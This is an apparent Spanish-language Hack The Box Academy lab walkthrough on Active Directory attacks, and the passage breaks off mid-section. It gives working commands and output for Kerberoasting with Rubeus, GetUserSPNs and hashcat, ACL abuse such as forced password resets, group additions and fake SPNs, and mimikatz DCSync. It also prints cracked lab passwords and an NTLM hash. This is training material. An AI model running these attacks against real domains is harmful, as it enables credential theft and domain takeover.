> $krb5tgs$23$*SAPService$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/SAPService*$b3560b504d4d91f8a2b76a1758560ba5$2568d925dde2cd7e50127353152ef42a91fab0c6503e5bbacde165e509aa550ec94380ebf2fbaae6899d1729c45394fb709fcf99c6165bc1ddd3d51d244c9bdd6c411794db08b1a07c582398d4d7a716cf228777cfdf5c6ee269dc7aade6c31df083663e11578f0d8f4a424394df2155d90f5e7660b8977054c0f2cfe8d1a457b590947534d7c55cc4198a6f6873d6f741eb856f7f741da61c8478a4095e3d634a753aee46ae84a8e0786d04a77c8ccc026f58da30785bcfd725b561ca441a7cf7f9c97d4fd49a0e1b1c97d2b3828dc8f4f4f4d899379fcf02c86f5d6fe67032832286248d4976a1687acdd6cd6108df64d9db79a58908b677d0dc1563e9199e18c512d98bf1e0cac36b9f2f63090052ba808b0fb047fe1ccf3d25c1c6f022a5ff57492a563532f2bfba4f58122ef0ffa67de8bff7857b612eaaf1da0c5cfcec2f783a88a90cc3590e5fb1bde33bb4b3af6126ec88f15cb94d519533633e3612c04083b622b2968daa3aee1e6da37d96965a1211b99aca851ee8e9b2d8aa7c068e202cd143f05e661a38f818b7bdbb3a5602dc76fe4052e61384d66edd110037bba441bf2c239e0295d3a6a8719ca2d0d9ba694d18f4bc59dbfc9773f02072d77552616b1ff4a961cd249af5657e4bd74e536d2174357b56db7f186f3ca15cdea18aef36063351c195daeea5495b5db5ffca260d4f22056eafa7f97032400fe7679888b6f7f60ee5a31e523ba44b81a1aa98aa806a440c94e4605f29f688485482e7594a19b37ee3359c129e24bfb4463719a64c00b4bf853990523f0d84e7ace318876152c46caad7e5432defc473ac53716e55a83965cffc7f1ba8b384bb2106bea1da3f03bf8c0f5c86532335c34fc4556c16b268d28443e0764dbc6ba04e08f0e68297fee7dce7b01b60ec48ec4a492e9ee231d780479ecc389895b3f7e0afe6774096d87dca4729caefd16afef243ed97e1b9f01422c52086a253ecffec95751da24b735ac55ac24e667546941e2d35803de336ace507a1aa8e0e013ca6fcdf38add9c9db3819cff40ab21a6fbd247f39a1a359cce973a91d507cc77caf7ce04c544b4a1b0c7b8248d618f013263b7202643838c8a8fb57333c4628d25f39f024ff4fd2aa37df4911b5930d93b1a9de5225dd8515e779cfce3d913ca83afd37262a13c6a2a63ce289a49638040f0a717acd61805bac615809bf0b0a4b0c1a45eb77b32a4d532c221a23d6a834ea3d251d5cff37de74a8ef82788989831414a40a12844a55f339149f23d1f8542dbf23afea7d1519362dccc5e94c39bc1eb09e097ba8be22c06ce59b86a54467d6ad0733fa181485af6b327e7b5994a18cddd2b5eed006368ab185eb603bbbd199e4738bb2c8950582026a66cc89087427a7449cf2b8e7cb96cb807985733940a7f2ba

Una vez obtenida el ticket Kerberos del usuario **SAPService** usaremos la herramienta **hashcat** para obtener las credenciales

```
hashcat -m 13100 SPAService /usr/share/wordlists/rockyou.txt
```

-m 13100: Es el modo para crackear Kerberos 5 TGS-REP etype 23

> $krb5tgs$23$*SAPService$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/SAPService*$b3560b504d4d91f8a2b76a1758560ba5$2568d925dde2cd7e50127353152ef42a91fab0c6503e5bbacde165e509aa550ec94380ebf2fbaae6899d1729c45394fb709fcf99c6165bc1ddd3d51d244c9bdd6c411794db08b1a07c582398d4d7a716cf228777cfdf5c6ee269dc7aade6c31df083663e11578f0d8f4a424394df2155d90f5e7660b8977054c0f2cfe8d1a457b590947534d7c55cc4198a6f6873d6f741eb856f7f741da61c8478a4095e3d634a753aee46ae84a8e0786d04a77c8ccc026f58da30785bcfd725b561ca441a7cf7f9c97d4fd49a0e1b1c97d2b3828dc8f4f4f4d899379fcf02c86f5d6fe67032832286248d4976a1687acdd6cd6108df64d9db79a58908b677d0dc1563e9199e18c512d98bf1e0cac36b9f2f63090052ba808b0fb047fe1ccf3d25c1c6f022a5ff57492a563532f2bfba4f58122ef0ffa67de8bff7857b612eaaf1da0c5cfcec2f783a88a90cc3590e5fb1bde33bb4b3af6126ec88f15cb94d519533633e3612c04083b622b2968daa3aee1e6da37d96965a1211b99aca851ee8e9b2d8aa7c068e202cd143f05e661a38f818b7bdbb3a5602dc76fe4052e61384d66edd110037bba441bf2c239e0295d3a6a8719ca2d0d9ba694d18f4bc59dbfc9773f02072d77552616b1ff4a961cd249af5657e4bd74e536d2174357b56db7f186f3ca15cdea18aef36063351c195daeea5495b5db5ffca260d4f22056eafa7f97032400fe7679888b6f7f60ee5a31e523ba44b81a1aa98aa806a440c94e4605f29f688485482e7594a19b37ee3359c129e24bfb4463719a64c00b4bf853990523f0d84e7ace318876152c46caad7e5432defc473ac53716e55a83965cffc7f1ba8b384bb2106bea1da3f03bf8c0f5c86532335c34fc4556c16b268d28443e0764dbc6ba04e08f0e68297fee7dce7b01b60ec48ec4a492e9ee231d780479ecc389895b3f7e0afe6774096d87dca4729caefd16afef243ed97e1b9f01422c52086a253ecffec95751da24b735ac55ac24e667546941e2d35803de336ace507a1aa8e0e013ca6fcdf38add9c9db3819cff40ab21a6fbd247f39a1a359cce973a91d507cc77caf7ce04c544b4a1b0c7b8248d618f013263b7202643838c8a8fb57333c4628d25f39f024ff4fd2aa37df4911b5930d93b1a9de5225dd8515e779cfce3d913ca83afd37262a13c6a2a63ce289a49638040f0a717acd61805bac615809bf0b0a4b0c1a45eb77b32a4d532c221a23d6a834ea3d251d5cff37de74a8ef82788989831414a40a12844a55f339149f23d1f8542dbf23afea7d1519362dccc5e94c39bc1eb09e097ba8be22c06ce59b86a54467d6ad0733fa181485af6b327e7b5994a18cddd2b5eed006368ab185eb603bbbd199e4738bb2c8950582026a66cc89087427a7449cf2b8e7cb96cb807985733940a7f2ba:!SapperFi2

Answer: **!SapperFi2**

2. **What powerful local group on the Domain Controller is the SAPService user a member of?**

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend:Klmcargo2 -request | grep 'SAPService'
```

Uso este comando para filtrar la salida con el objetivo de mostrar **solo lo relacionado con `SAPService`**.

<p align="center"> 

</p>

answer: **Account Operators**

### Kerberoasting - from Windows

1. **What is the name of the service account with the SPN 'vmware/inlanefreight.local'?**

RDP to 10.129.53.103 (ACADEMY-EA-MS01), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_student_AD!</font>"

Empezamos ingresando dentro del sistema:

```
xfreerdp /u:htb-student /p:Academy_student_AD! /v:10.129.32.55:3389 /f
```

Ingresamos en la **PowerShell** e ingresamos el siguiente comando:

```
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

* Get-DomainUser \*: Obtengo todos los usuarios del dominio
* -spn: Filtra solo usuarios que tienen un **SPN (Service Principal Name)**
* select samaccountname: Muestra solo nombre de usuario

<p align="center"> 

</p>

```
Get-DomainUser -SPN | Where-Object {$_.serviceprincipalname -like "*vmware/inlanefreight.local*"} | select samaccountname, serviceprincipalname
```

Si lo quieres mas detallado este comando sería clave:

* Get-DomainUser -SPN: Obtiene todos los usuarios del dominio que tienen **SPN**
* Where-Object { ... }: Filtra los resultados:
	* `$_` → cada usuarios
	* `.serviceprincipalname` → su SPN
	* `-like` → búsqueda parcial
	* `*vmware/inlanefreight.local*` → patrón que quieres encontrar

Por tanto. “Muéstrame solo los usuarios cuyo SPN contenga vmware/inlanefreight.local”
* select samaccountname, serviceprincipalname: 
	* `samAccountName` → nombre del usuario
	- `servicePrincipalName` → el servicio asociado

<p align="center"> 

</p>

answer: **svc_vmwaresso**

2. **Crack the password for this account and submit it as your answer.**

```
.\Rubeus.exe kerberoast /user:svc_vmwaresso /nowrap
```

> Rubeus Herramienta usada para abuso de Kerberos

*  `kerberoast`: Ataca contra cuentas de servicio conSPN, solicita un TGS, luego ese ticket se crakea de manera offline
* `/user:svc_vmwaresso`: Especificas el usuario objetivo
* `/nowrap`: Evita que el output se divida en varias líneas

<p align="center"> 

</p>

> $krb5tgs$23$*svc_vmwaresso$INLANEFREIGHT.LOCAL$vmware/inlanefreight.local@INLANEFREIGHT.LOCAL*$A6EA51521CA056B24BF5DE18F8739BCA$444DD731D51BE80EC35360328ED16681DFCDD3A55190B52E9BC7C2079AFA5AC4865169FB978E8FF360B1017F983F2ADA44A084F0CB04E02AEDF486D8BCE8F143A5F69FE1A57FCC4ED0F88DE43A98B14D3E1C23D0E81CB0640B44D36935F5ED641BE195AB4631ED66BCAD3E11D738B9AC90569799CF123AABF0B67818AB846A0373BE8004FB6931E771B6DB2C3D9670950ED10E3FD264441499C1AC6B358CEFCBD09ABCA891950CCB8623EAB7092D73E84EA9F3C438DC95E6F8F7CD507D2A307A330B3B6B70C86B67DAF80B83A3CC37B051936A68A3120429A138ABB00B96F5F713F98CFB4AB76BB01FD303E9273C704DCFB031BB28663584579544516249325C810E2E739D8A0C9F65BF7000D88657446BCDF2E7DCC4701D62FBA62CAF997A79B23E4349B3C725311D2D8D91ADDC1DDCFE1DD8F06B8FE236550E0E6BAAC59F52ED2F9D5D5F3FF53E756279F0ECC3543DB44E01E99A1E786BA0FB78D1A30DB02A16427B496920BCC1FB5AECFAC4878EE5B8314A8577EA977B317777D7DBEC65DC92DC14B9BD13DBE980D949A30F3DDF4231EC22F7B1BA9958FD31BBF8AB3471CFA78DA67009A5285CCB497D973EAB87B7873DF98D18A24C8D27D054AD4A3F332F775FE4AB5E811EC17D689B25154CE9D106B9887413064F55EEA8EA3EF4DC529970BD921EC791D4B65B9B2613DD6759E850231CAA3BB7E1EF27AAACEE34FBEFD3A709BEC3A885FD44869A902D964F23893097EA07934C9E20A439BC8858F9024DC7161B03D4504168D3C9EF98DDF1AABBA21FFE0642877A9AA92D053CD0B8884626E709F7F984BA77C2F0DCD171BE6574CB78599AEDAE31C056B8B789AF1F0774CCA7D62C8CC97DD426A3FBC63359E2ED8A91273017944A1DC88A047E717DC7C9C506A488232B050E1F5645B31A0D7278C701F05ECD5FD23201BF4AA10CDC4FA0E10DDA5C9D5D4234698CD078C803419776F8BCEA05D8ED4B0079BB3E7CD2786A642B87CA342161937783D571D611C0A03E087D6D515E1494B2DDF621237B44FF8FC3790BAD53696D8D2A6EFB02B6CB41E550ECBCFF562B4B87AED7CEDE77E54F96143B2BDB25A26D82729F6B380F883BAC16A9F4D14C51C7616E3A663D2C437B81FC2B25AF0A2A28687AA6F8A3A0C73E4104242B2E5A4957541A0CE9D4A28B31A8044FA2753A29666847B3F969442A3B831F6AC21FB57F8BF6C83C6B55EA65052BB58F9F42F04F15DBC90064A930BA7ECD9756E0DC2417EB0240569F8E09157E83FAE18124E5D027A9E896A163423AB8940091B2CD7098F8C880D02722E954D37C6A77962C75F9D2423D3DE7EE34F97BED9BB450753032A7A329C140F246A9BE509B972344FEBFD820CF9DF57C7CBD6ADB76B44FE69DA73B9C0599679434A49DE6B06BD7E8D5AC8556692E564C2790EA315F84AE69A8130833691A00E46D0346F383038AB78D3FFD165439872104BC2CCE3C54D8AF69405F0BC1665D33D64EDB372AAEAB66A2B13591204877A7AF11A8981954E2089A348F072E5BFC62A32399F367E493938CB11B1FF4A41802728D86A2E5E59A0CD870EE25BA1B3F01B26E652431947034FD96F5E94C112A4BC39BA00129C2F8ADA0E79208A862C6705B455FB51FDBB4355C1F4536C701F6261814F90C0C41F650FBC98D74

```
hashcat -m 13100 svc_tgs /usr/share/wordlists/rockyou.txt 
```

<p align="center"> 

</p>

answer: **Virtual01**

## An ACE in the Hole

### Access Control List (ACL) Abuse Primer

|      | Significado            | Definición                                                                                                                                                                                                                                                                                                                                                                                                                        |
| ---- | ---------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ACL  | Acces Control List     | Es una lista que define quien tiene acceso (usuarios, grupos, procesos) En AD todos los objetos tienen ACLs                                                                                                                                                                                                                                                                                                                       |
| ACEs | Access Control Entries | Son las entradas de una ACL. Cada ACE define permisos para un usuario o grupo específico. Los componentes de un ACE:<br>- **SID** → quién (usuario/grupo)<br>- **Tipo** → allow / deny / audit (**SACL**)<br>- **Herencia** → si aplica a objetos hijos<br>Los tipos del ACE son:<br>- ForceChangePassword <br>- Add Members<br>- GenericAll<br>- GenericWrite<br>- WriteOwner<br>- WriteDACL<br>- AllExtendedRights<br>- AddSelf |
| DACL | Discretionary ACL      | Es un tipo de ACL que controla quién puede acceder y quién no. Tiene ACEs de **ALLOW** y **DENY**. Si no hay DACL significa que hay acceso total, Si hay DACL pero sin reglas signfica que nadie puede acceder                                                                                                                                                                                                                    |
A continuación, explicaré en más profundidad los diferentes tipos de ACE que nos encontraremos:

- **ForceChangePassword** - nos da el derecho a restablecer la contraseña de un usuario sin conocer primero su contraseña (debería usarse con precaución y generalmente es mejor consultar a nuestro cliente antes de restablecer contraseñas).
- **GenericWrite** - nos da el derecho de escribir en cualquier atributo no protegido de un objeto. Si tenemos este acceso sobre un usuario, podríamos asignarle un SPN y realizar un ataque de Kerberoasting (que depende de que la cuenta objetivo tenga una contraseña débil configurada). En un grupo significa que podríamos añadirnos a nosotros o a otro principal de seguridad a un grupo dado. Finalmente, si tenemos este acceso sobre un objeto de computadora, podríamos realizar un ataque de delegación restringida basado en recursos, lo cual está fuera del alcance de este módulo.
- **AddSelf** - muestra los grupos de seguridad a los que un usuario puede añadirse a sí mismo.
- **GenericAll** - esto nos otorga control total sobre un objeto objetivo. De nuevo, dependiendo de si se otorga a un usuario o a un grupo, podríamos modificar la membresía del grupo, forzar un cambio de contraseña o realizar un ataque de Kerberoasting dirigido. Si tenemos este acceso sobre un objeto de computadora y la Solución de Contraseña del Administrador Local (LAPS) está en uso en el entorno, podemos leer la contraseña de LAPS y obtener acceso administrativo local a la máquina, lo que nos puede ayudar en el movimiento lateral o en el escalado de privilegios en el dominio si podemos obtener controles privilegiados o ganar algún tipo de acceso privilegiado.

Los ACL se usan para **movimiento lateral**, **escalada de privilegios**, **persistencia**

Se usa herramienta como **BloodHound** (Visualiza relaciones y permisos) y **PowerView** que explota permisos.

___

1. **What type of ACL defines which security principals are granted or denied access to an object? (one word)**

DACL

2. **Which ACE entry can be leveraged to perform a targeted Kerberoasting attack?**

GenericAll

### ACL Enumeration

1. **What is the rights GUID for User-Force-Change-Password?**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_student_AD!</font>"

```
xfreerdp /u:htb-student /p:Academy_student_AD! /v:10.129.57.232:3389
```

Luego en la porwershell, ingresamos dentro de la carpeta **Tools** e ingresamos lo siguientes comandos

```
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

- **Import-Module .\PowerView.ps1**: Este comando carga el script de PowerView en la sesión actual de PowerShell. Sin esto, las funciones como `Get-DomainObjectACL` no estarían disponibles.
- **$sid = Convert-NameToSid wley**: Aquí se está traduciendo el nombre del usuario wley a su sid (Identificación de seguridad) único. El sid es lo que utiliza Windows internamente para gestionar permisos, el resultado se guarda en la variable **sid**
- **Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$\_.SecurityIdentifier -eq $sid}**: 
	* **Get-DomainObjectACL -ResolveGUIDs -Identity `*`**: Solicita su ACL de todos los objetos dominio. El parámetro **-ResolveGUIDs** convierte los números extraños en nombre legibles para humanos
	* **`? {$_.SecurityIdentifier -eq $sid}`**: Filtra los resultados para mostrar únicamente las entradas donde el usuario **wley** (el SID que guardamos antes) tiene algún tipo de permiso.

<p align="center"> 

</p>

**Explicación del hallazgo**

La imagen muestra un ACE, esto para un pentesting es fundamental, analizaremos los campos mas importantes:

* **ObjectDN: CN=Dana Amundsen** --> En este caso, indica que el permiso se aplica sobre la cuenta del usuario **Dana Amundsen**
* **ActiveDirectoryRights  : ExtendedRight** -->En este apartado define los permisos que tiene, en este caso estamos antes el permiso **ExtendedRight** que significa que no es un permiso común, sino un derecho extendido especial.
* **ObjectAceType: User-Force-Change-Password** --> **¡Aquí está el detalle crítico!** El usuario **wley** tiene el permiso de **restablecer la contraseña** de Dana Amundsen sin conocer la contraseña actual.
* **SecurityIdentifier: Termina en -1181** --> Este es el SID de **wley**, confirmando que él es quien posee este derecho.

```
$sid = Convert-NameToSid wley
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

Recuerda que anteriormente el parámetro **-ResolveGUIDs** convierte los números extraños en nombre legibles para humanos, en este lo hemos quitado y hemos obtenido su número identificativo. 

<p align="center"> 

</p>

De todos modos visitando esta [pagina](https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password) obtenemos el número SUID de  User-Force-Change-Password

<p align="center"> 

</p>

answer: **00299570-246d-11d0-a768-00aa006e0529**

2. **What flag can we use with PowerView to show us the ObjectAceType in a human-readable format during our enumeration?**

answer: **ResolveGUIDs**

3. **What privileges does the user damundsen have over the Help Desk Level 1 group?**

```
$sid2 = Convert-NameToSid damundsen
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2}
```

<p align="center"> 

</p>

Answer: **GenericWrite**

4. **Using the skills learned in this section, enumerate the ActiveDirectoryRights that the user forend has over the user dpayne (Dagmar Payne)**

```
$sid2 = Convert-NameToSid forend
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2}
```

<p align="center"> 

</p>

Answer: **GenericAll**

5. **What is the ObjectAceType of the first right that the forend user has over the GPO Management group? (two words in the format Word-Word)**

```
.\SharpHound.exe -c All --zipfilename ILFREIGHT
```

Con este comando conseguimos extraer un zip de todos los datos del dominio **ILFREIGHT**

Luego, para acceder a **BloodHound** tenemos que irnos:

```
cd \tools\BloodHound-GUI
.\BloodHound.exe
```

El siguiente paso sería subir el zip que hemos creado, en el apartado **Upload Data**

<p align="center"> 

</p>

Luego en el buscador ponemos: FOREND@INLANEFREIGHT.LOCAL abrimos la pestaña izquierda y nos iremos **Outbound Control Rights** - **First Degree Object Control**

<p align="center"> 

</p>

Nos mostrará el siguiente grafo: 

<p align="center"> 

</p>

Donde el grupo amarillo es GPO. Volviendo a PowerView realizaremos el siguiente comando para descubrir su **ObjectAceType** 

```
Get-DomainObjectACL -Identity "GPO MANAGEMENT" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq (Convert-NameToSid FOREND)}
```

<p align="center"> 

</p>

Answer: **Self-Membership**

### ACL Abuse Tactics

1. **Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_student_AD!</font>"

```
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

* **$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force**: En este comando estamos guardando la contraseña del usuario wley en la variable **SecPassword**
* **$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)** : En este comando establecemos la variable **SecPassword** al usuario **wley**

```
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

* **$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force**: En este comando estamos estableciendo en la variable **damundsenPassword** la contraseña para el usuario **damundsen**
* **Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose**: Este comando con las credenciales del usuario wley guardado en la variable **Cred** y teniendo el permiso de cambiar la contraseña del usuario **damundsen**

<p align="center"> 

</p>
 
Objetivo cumplido cambiar la contraseña del usuario **damundsen**

```
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $damundsenPassword)
```

Siguiente objetivo crear un variable llamada **Cred2** y guardamos las credenciales del usuario **damundsen** 

```
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

Añadimos el usuario **damundsen** al grupo 'Help Desk Level 1'. Dado que el usuario **damundsen** tiene derechos `GenericAll` sobre la cuenta administrativa **adunn** que está dentro del grupo **Help Desk Level 1**, podemos realizar un ataque de Kerberoasting modificando el atributo servicePrincipalName de la cuenta para crear un SPN falso para luego obtener el ticket TGS y craquear el hash de forma offline usando Hashcat.

```
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

<p align="center"> 

</p>

```
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

<p align="center"> 

</p>

Con este comando creamos un SPN false para el usuario administrativo **adunn**. Este significa que `adunn` en una cuenta vulnerable a **Kerberoasting**.

```
.\Rubeus.exe kerberoast /user:adunn /nowrap
```

Recordemos que **Rubeus** crackea solo cuenta que tiene SPN y como la cuenta adunn tiene un SPNFalso, pues conseguiremos su contraseña. A continuación tengo la contraseña hash del usuario

>$krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$5074AC90DE764860622444DE75F83EFD$DBB75A68F154B156CBA7729E48BA077DB969A770BC5D60593F09CD9CC1E72152C09D4016A5F9B042A2A2DFDC5F4DB79553E6CCE8FB1C73196FA616F774915775D8E9968AFD78EB35C62E1B275B23F125694D33F6271DB83FD953E5D9C955CAB1343B24A630F536238D4DBAA569758FE0C7FF9AA1ABBC0BD30D19351759918CE01AF6D771B6D6176013BFB6FD84944483269C8B1EAB9B050199052B07F0D1227C3C3964D345D7D428F30653316BAF78204C50B10FA9F455B4810FC07EE6DD0ED283744C7F75428FEE8AD69FEC8F9968CAEB4AAA94DD47B5BD0B1AFF860237BC16A44F29D8368AE6D676FA34984E0556829F40F3FE4110DE1B79210494F441F35D5E6D8204F8B41F62BA0C4F4950E3E132092DA5BE6820669202792E97C2AA63B2474F69003C421BFFF43E5F15B0D43D5DE86B9E4D23CA453F63A00AC3A0F6B30015AAE2B3897D670B3ECB7ADB03A5823F6E968B6748F26D75623662071D38FD0F8370B80853DABA1B83949ED1B0BEAAC2686DDCA8C27E6C142ABF422366B22379C09ECE241B259CF7F34D0383F52FF00B29FB7C486560A7CE03841B6AE35D3193ED47A6E29A132368112396C0CB7E28C8250ADA05A533D0305A4DC8CDCD0535CFE94C1EC725C0F3A4EFF58802423D780AFECEA34FF9579C713B9506E2354B9EE50FAF79B6AAB403C337D3E9395128B5EDF7AC5655E2BBDF7DB64F691436CB5E098A4BF0E1EEB61009C5D1A9FF2E84ABED8CC71AE67AC8361968070017D8B47A9244DB65A11561DF54CE5A2D35F8AA4E783E0FB0D7F1DD7845672DBE3B70EAE1CE2875D28DF34A974BB84EA578015C6803E132A97BDFFF13A5FF10F250F24A5EFFDB811FAB699C3EA525A7FA2C89F54D6C2EF03EF9C41783211B341E9375F3EBDF33722459AA79CED4E64C56264A3E1E8342D4504241569F94BD6745EE4BBF43ABA7BB8946F316A6C374FD03D3EFCC5358BC4969CE05206960A80008F0FAA94AA612BD3912D63BF7E28D955FD88709C10686981A8767A1AE06FC38C43262BBCC6720575DB300A7A912A9D6A92E0E0A129380D128DF0B78876FBFCC3115348A91C9C49022E8471E4351D4A4A7DDE0B2F95FEFC710E25EB4CAFAB586BC04114C6717BF682E29829F754842C2F924861CA73D290D5719FA4EDCE40D61664BCB2C7AD9CB83F111A39CCECFA9F052BBD9E46543210930B31AC367A664369A42E07E2309DFFBB511B375181B4E07D656F1C65D15922B8FF301337E9C5BBFF4AE8A5F1E7D0AE389554DD9A230D94441D6BEA17350FE707FE0219814727B37C4BC9BB88AEF9FEEE5349AF882016C1BD9B9A39143E6ED9469B32CDFC00D8CDB8701368977A54787B6583844298D6E3F6E52775F0E324D3246101080052691188F50834BD4186D46372D084F8B22CCD6FC0A4481A0A6E3332500B526ACDC96EA01BEF8788EB1FAA6E233D7AD3E4A075278F95787C01403549754FBB958A6DBFD5710E14C7AD0C0E14B5471EB52F3377ED034FE0FAFA2714B2733135AB0929A2F0B7244654F512CEC9109214EC7D91CE4182B6FAEB00371B1962A0BF648F210B55AEFB5EED39F7D6648CD42E1B48D538F6BBF05EE889A985898C039B3DDFB0459A7193587882841BC8E3E8B05CFFD37EA0BF9954D2BBC5DE1E829EC386E1AA4

```
hashcat -m 13100 adunn_TGS /usr/share/wordlists/rockyou.txt
```

<p align="center"> 

</p>

answer: **SyncMaster757**

### DCSync

1. **Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_student_AD!</font>"

```
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

* **Get-ADUser**: Es el cmdlet estándar para consultar objetos de usuario en Active Directory.
* **-Filter**: Define el criterio de búsqueda.
* **'userAccountControl -band 128'**: Esta es la parte lógica. Usa el operador `-band` (Bitwise AND) para buscar el bit **128** que significa **"PASSWD_NOTREQD"** (Contraseña no requerida).
* **-Properties userAccountControl**: Por defecto, `Get-ADUser` no muestra el valor numérico de este atributo. Con esto, le obligas a incluirlo en los resultados.

<p align="center"> 

</p>

El número 640 del apartado **userAccountControl** significa que es una **Cuenta Normal** que tiene el permiso de **No tener contraseña**.

answer: **syncron**

En conclusión, Este comando te devuelve una lista de **usuarios que legalmente pueden tener una contraseña en blanco** según la configuración de su cuenta en el dominio.

2. **What is this user's cleartext password?**

Nos tenemos que situar en la siguiente ruta **Windows\System** y realizar el siguiente comando:

```
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

- **`runas`**: Es el comando de Windows para ejecutar un programa con los permisos de un usuario diferente al que tiene la sesión iniciada.
- **`/netonly`**: Esta es la clave del comando. Le dice a Windows que use las credenciales especificadas **solo para conexiones de red**.
- **`/user:INLANEFREIGHT\adunn`**: Indica el dominio (`INLANEFREIGHT`) y el nombre de usuario (`adunn`) que quieres suplantar para la red.
- **`powershell`**: Es el programa que se va a abrir con estas condiciones.

Recordemos que la contraseña del usuario adunn es **SyncMaster757**

En conclusión, en esta nueva venta de powershell tenemos permiso del usuario **adunn**, nuevamente nos situamos en **\tools\mimikatz\x64** ejecutamos la herramienta **mimikatz.exe**

> **Mimikatz** es la herramienta más famosa de post-explotación en Windows. En una frase: **sirve para extraer credenciales de la memoria del sistema.**

Dentro de mimikatz ejecutamos el siguiente comando:

```
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\syncron
```

- **`lsadump::dcsync`**: Llama al módulo de Mimikatz encargado de interactuar con el servicio de replicación de Active Directory.
- **`/domain:INLANEFREIGHT.LOCAL`**: Especifica el FQDN (Nombre de Dominio Totalmente Calificado) del dominio al que quieres consultar.
- **`/user:INLANEFREIGHT\syncron`**: Indica el usuario específico del cual quieres extraer el hash. En este caso, quieres el hash del usuario **syncron**.

<p align="center"> 

</p>

answer: **Mycleart3xtP@ss!**

3. **Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.**

Dentro de mimikatz, realizamos este otro comando

```
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\khartsfield
```

<p align="center"> 

</p>

answer: **4bb3b317845f0954200a6b0acc9b9f9a**

## Stacking The Deck

### Privileged Access

1. **What other user in the domain has CanPSRemote rights to a host?**

RDP to with user "<font color="#c00000">htb-student</font>" and password <font color="#00b050">"Academy_student_AD!</font>"

Como tenemos que usar **BloodHound** para obtener la respuesta de esta pregunta, tenemos que repetir unos comandos que hizimos en el apartado **ACL Enumeration** en la pregunta 5.

El siguiente comando para obtener el zip del dominio **ILFREIGHT**

```
.\SharpHound.exe -c All --zipfilename ILFREIGHT
```

Luego, nos iremos a **\tools\BloodHound-GUI** 

```
.\BloodHound.exe
```

En el lateral derecho en **upload data** subimos el zip. Por último, Donde pone **Raw Query** escribiremos la siguiente consulta.

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

* `MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group))`: Busca el camino más corto entre un **Usuario** (`u1`) y un **Grupo** (`g1`) del que es miembro (directa o indirectamente).

- `MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer)`: Busca si ese mismo usuario (`u1`) tiene permisos de **CanPSRemote** (administración remota por PowerShell) sobre una **Computadora** (`c`).

- `RETURN p2`: Te muestra visualmente el camino que conecta al usuario con la computadora.

<p align="center"> 

</p>

answer: **BDAVIS**

2. **What host can this user access via WinRM? (just the computer name)**

Con la imagen del ejercicio anterior respondemos esta pregunta.

answer: **ACADEMY-EA-DC01**

3. **Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01 host (172.16.5.150). Submit the contents of the flag at C:\Users\damundsen\Desktop\flag.txt.**

Authenticate to with user "<font color="#00b050">damundsen</font>" and password "<font color="#c00000">SQL1234!</font>"

Para esta ocasión hay que usar la segunda IP que nos HTBAcademy, pero esta gente son muy lista que no pone la contraseña para acceder a esa segunda IP que aparece, menos mal que esta **frznram** que nos dice cual es la credencial para [acceder](https://forum.hackthebox.com/t/active-directory-enumeration-attacks-privileged-access/265497/15)

<p align="center"> 

</p>

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.60.239 /size:95% /dynamic-resolution +clipboard
```

Obtenemos un linux, accedemos a la terminal y escribimos el siguiente comando: 

```
